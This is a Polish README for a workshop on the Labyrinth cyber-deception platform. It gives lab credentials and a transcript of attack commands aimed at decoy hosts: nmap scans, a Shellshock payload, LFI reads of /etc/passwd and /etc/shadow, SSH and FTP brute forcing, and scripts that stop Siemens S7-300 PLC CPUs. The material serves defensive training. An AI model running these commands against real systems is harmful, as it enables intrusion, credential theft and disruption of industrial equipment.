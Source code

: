 # Witamy na warsztatach platformy Labyrinth Deception
Wszystko, czego możesz potrzebować podczas warsztatów, jest dostępne w tym repozytorium.

## Uzyskiwanie dostępu

Na początek przejdź do naszego stanowiska testowego:

1. **Poświadczenia do AdminVM** - możesz użyć dowolnej przeglądarki internetowej:
```
URL: https://demo.labyrinth.tech/
Username: user
Password: 2~8uH'14leki
```
> [!NOTE]
> Zachęcamy do tworzenia własnych użytkowników tutaj, przechodząc do Settings->Users.
2. **Poświadczenia do atakującego hosta** - z tego hosta będziesz przeprowadzać ataki. Użyj SSH i następujących
Poświadczeń: 
```
Host: warrior.labyrinth.tech
Username: user
Password: K4H*91kYg/j*
```

## Terminologia, która będzie dzisiaj używana
Ze względu na fakt, że dziś używamy platformy Labyrinth Deception jako przykładu platformy cyber decepcji, ma ona swoje własne terminy, które będą dziś aktywnie wykorzystywane::

1.	**Point (Punkt)** = wabik sieciowy, przynęta, spreparowane usługi sieciowe.
> [!NOTE]
> Punkt NIE JEST oddzielną maszyną wirtualną.

2.	**Honeynet** = segment sieci, w którym działają Punkty. Służy do określenia sieci VLAN, w której mają działać Punkty.

3.	**Seeder	Tasks** = wabiki plikowe, nawigacja okruszkowa używana do logicznego łączenia prawdziwej i spreparowanej infrastruktury.

4.	**Seeder Agent** = program, który rozprowadza Seeder Tasks na rzeczywistych hostach.
5. **AdminVM (konsola zarządzania)** = główny moduł kontrolujący system.
6. **WorkerVM (węzeł roboczy)** = węzeł, na którym uruchomione są Punkty.

## Transkrypcja poleceń
Ponadto udostępniamy transkrypcję wszystkich poleceń, aby ułatwić korzystanie z nich. Nawet jeśli przegapiłeś jakąkolwiek część prezentacji, możesz skorzystać z tych notatek, aby kontynuować ćwiczenia.

> [!IMPORTANT]
> **\<any data>** wskazuje, że należy wkleić własne dane, które są wymienione wewnątrz nawiasów.
>
> **[options]** wskazuje, że ta część (lub części) polecenia jest opcjonalna i może zostać pominięta. Wybór wielu opcji jest wyświetlany za pomocą / (ukośnika).

#### Przypadek 1: wykrywanie skanowania sieci
Można użyć kilku narzędzi. Na przykład [nmap](https://nmap.org/):
```
nmap [-sS/sT/sW/sM/sU/sF/sX] ​<Point IP>
```
#### Przypadek 2: łączenie się z hostem przy użyciu danych z wabików plikowych (breadcrumbs)

1. Przejdź do Seeder Agents -> Tasks
2. Wybierz ssh_txt_credentials lub ssh_config z listy
3. Kliknij w trzykropek, a następnie Details
4. Użyj tych poświadczeń, aby się zalogować:
```
ssh <user>@<Point IP>
```
#### Przypadek 3: oszustwa internetowe z wykorzystaniem UWP
UWP to skrót od Universal Web Point. Jest to typ wabika opracowany przez zespół Labyrinth Security Solutions, który pozwala emulować wszystko, co ma interfejs sieciowy w ciągu zaledwie kilku sekund.

W tym przypadku będziemy próbowali wykorzystać [Shellshock](https://blog.cloudflare.com/inside-shellshock).
```
curl -k -H "User-Agent: () { :; }; /bin/bash cat /etc/passwd" http://<UWP IP>/
```

#### Przypadek 4: interakcja z brokerem MQTT
Subskrybuj wszystkie tematy:
```
mosquitto_sub -h <MQTT broker IP> -t "#" [-u <username> -P <password>]
```
Opublikuj temat:
```
mosquitto_pub -h <Point IP> -t <topic name> [-u <username> -P <password>] -m 'My Message'
```

#### Przypadek 5: S7comm Malformed PDU

W tym przypadku istnieje [skrypt](https://github.com/ad-labyrinth/ATS2023/blob/main/scripts/S7_Malformed_PDU.py) dostępny w tym repozytorium - wystarczy go uruchomić:

```
cd S7_malformed_PDU
python3 S7_malformed_PDU.py -a <Point IP>
```
Lub:
```
cd S7_malformed_PDU
python3 S7_malformed_PDU.py --plc_ip_addr <Point IP>
```

#### [Zaawansowany] Przypadek 6: ponowne użycie poświadczeń

1. Znajdź serwer WWW
```
sudo nmap -sS -sC -p80,443 <Honeynet IP> -vvv
```
2. Eksploruj znaleziony serwer WWW

Wykonaj LFI
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/passwd 
```
Lub:
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/shadow 
```
Wyszukaj dodatkową ścieżkę internetową:
```
dirsearch --wordlists=/home/user/wordlists/directories.txt -u https://<Point IP>/ 
```
Odnośnik: [dirsearch](https://github.com/maurosoria/dirsearch)
3. Skonfiguruj listę słów
```
cd wordlists
nano brute.dict
```
4. Wykonaj bruteforce SSH
```
hydra -L brute.dict -P passwords.dict <IP of the ssh host> ssh -t 4 
```
5. Zaloguj się do hosta
```
ssh <user>@<Point IP>
```
6. Ponowne użycie poświadczeń do połączenia z innym hostem
```
ssh <user>@warrior.labyrinth.tech
```

#### [Zaawansowany] Przypadek 7: atakowanie sieci przemysłowych

1. Przeszukanie sieci w poszukiwaniu serwera FTP
```
sudo nmap -sS -sC -p21 -T4 <Honeynet subnet> -vvv 
```
2. Połącz się z serwerem FTP

Spróbuj połączyć się anonimowo:
```
ftp <FTP IP address>
```
Wykonaj bruteforce FTP:
```
cd wordlists
nmap --script ftp-brute -p21 <FTP IP address> --script-args userdb=users.dict,passdb=passwords.dict
```
3. Sprawdź znaleziony plik
```
ls -la
less <file>
```
4. Wykonać żądanie sterowania CPU S7comm
```
cd S7_scripts
python2 s7300stop.py <S7-300 IP>
```
Ponadto można spróbować uruchomić komunikat startowy CPU:
```
python2 s7300cpustart.py <S7-300 IP>
```

Odnośnik: [exploits source](https://github.com/hackerhouse-opensource/exploits)

## Informacje o platformie Labyrinth 
Labyrinth to zespół doświadczonych inżynierów cyberbezpieczeństwa i testerów penetracyjnych, który specjalizuje się w opracowywaniu rozwiązań do wczesnego wykrywania i zapobiegania cyberzagrożeniom.

Techniki decepcji zapewniają atakującym zasadniczą przewagę nad obrońcami, którzy nie są w stanie przewidzieć kolejnego ruchu napastników. **NASZĄ WIZJĄ** jest przesunięcie układu sił na korzyść obrońców.

**NASZĄ MISJĄ** jest dostarczenie wszelkiego rodzaju organizacjom prostego i wydajnego narzędzia do jak najwcześniejszego wykrywania napastników wewnątrz sieci korporacyjnej.

Więcej informacji o platformie: https://labyrinth.tech/ 
